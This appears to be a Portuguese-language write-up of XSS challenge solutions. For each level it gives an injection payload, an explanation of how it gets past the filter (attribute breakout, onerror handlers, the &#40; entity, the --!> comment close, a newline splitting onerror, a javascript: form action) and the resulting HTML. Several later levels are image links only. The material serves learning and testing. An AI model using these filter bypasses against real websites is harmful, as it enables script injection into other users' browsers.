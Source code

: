 ![image](https://github.com/user-attachments/assets/c07d2c64-0365-4938-875e-bdb428fea62a)

Input:
```
"><script>prompt(1)</script>
```

Description:
O atributo value seja fechado com " — você escapou a string.

O campo de input se feche com >.

O navegador interprete o restante como HTML válido, e execute o script.

HTML source:
```
<input type="text" value=""><script>alert(1)</script>">
```

-----

![image](https://github.com/user-attachments/assets/40ee93b5-5a4a-42fb-96b7-886521db43d7)

Input:
```
<img src=x onerror=prompt(1)//
```

Description:
Por conta do filtro não da para abrir e fechar o construtor do javascript (<>), com isso, podemos apenas abrir <, dar uma imagem que tem como referência x, no entanto essa imagem não existe, logo, ela dará erro e o erro que foi indicado foi o próprio prompt(1), o restante do input (//) serve para comentar o restante da linha, com isso o fechamento do <article> não acontece, e o HTML fecha sozinho o >, após isso ele finaliza o <article> também.

HTML source:
```
<article><img src=x onerror=prompt(1)//</article>
```

-----

![image](https://github.com/user-attachments/assets/1961c834-7137-4764-b43b-076a91695485)

Input:
```
<svg><script>prompt&#40;1)</script>
```

Description:
O navegador interpreta o conteúdo dentro de <svg> como XML/HTML, então aceita <script> lá dentro.

Uma entidade HTML: &#40; → que representa (.

Como ( está sendo filtrado, mas &#40; não é o caractere real, o filtro não detecta e não remove essa entidade.

Quando o HTML é renderizado pelo navegador, &#40; é convertido de volta para ( — isso é comportamento normal do parser HTML.

HTML source:
```
<svg><script>prompt&#40;1)</script>
```

-----

![image](https://github.com/user-attachments/assets/c45de787-add9-4100-afa2-05661fd71948)

Input:
```
--!> <img src=x onerror=prompt(1)
```

Outra forma de fecha comentário em HTML é usando --!>.

HTML source:
```
<!-- --!> <img src=x onerror=prompt(1) -->
```

-----

![image](https://github.com/user-attachments/assets/9e2f2d74-e28a-4ce2-81af-a14399681a10)

-----

![image](https://github.com/user-attachments/assets/41260ad4-96ca-4920-82e4-d14b137026db)

Input:
```
"type=image src onerror
="prompt(1)
```

Description:
O payload funciona porque o " fecha o atributo value, permitindo injetar novos atributos no <input>. O type=image faz o navegador tentar carregar uma imagem, e o src (mesmo sem valor) ativa esse carregamento. Como a imagem não existe, ocorre um erro que dispara o onerror. A quebra de linha entre onerror e = serve para burlar o filtro regex, que só detecta on...= na mesma linha.

HTML source:
```
<input value=""type=image src onerror
="prompt(1)" type="text">
```

-----

![image](https://github.com/user-attachments/assets/cb66fc90-8b07-4e5e-9ea1-fc58f5b9e319)

Input:
```
javascript:prompt(1)#{"action":1}
```

Description:
O payload funciona porque javascript:prompt(1) define o action do formulário como código JavaScript executável. O #{"action":1} garante que o JSON seja válido e o código não quebre. O filtro tenta bloquear apenas script: e data:, mas esquece de incluir javascript:, permitindo o bypass. Quando form.submit() é chamado, o navegador executa o código no action.

HTML source:
```
<form action="javascript:prompt(1)" method="post"><input name="actio" value="1"></form>                         
<script>                                                  
    // forbid javascript: or vbscript: and data: stuff    
    if (!/script:|data:/i.test(document.forms[0].action)) 
        document.forms[0].submit();                       
    else                                                  
        document.write("Action forbidden.")               
</script>
```

-----

![image](https://github.com/user-attachments/assets/19a64242-8781-4c49-a1a7-8aa5e452499c)

-----

![image](https://github.com/user-attachments/assets/1acbc0ce-b7a3-44fd-9310-42dd26aca31e)

-----

![image](https://github.com/user-attachments/assets/904e735c-975a-4988-b81c-b508d99f321e)

-----

![image](https://github.com/user-attachments/assets/1e1649d2-f8db-481a-a3df-142d4f578056)

-----

![image](https://github.com/user-attachments/assets/41a629b0-899a-4417-93e5-2676c6edabbc)

-----

![image](https://github.com/user-attachments/assets/54ac5579-6d9c-428b-8dda-bd5389198186)

-----

![image](https://github.com/user-attachments/assets/69da3e2a-9b60-488d-ba2d-9f68b19b7bf4)

-----

![image](https://github.com/user-attachments/assets/36392822-ed9c-4edf-bc35-8aa9d27ceda8)

-----

![image](https://github.com/user-attachments/assets/9f2feeb0-98cb-45c3-bc24-d111dc94f0dc)

-----
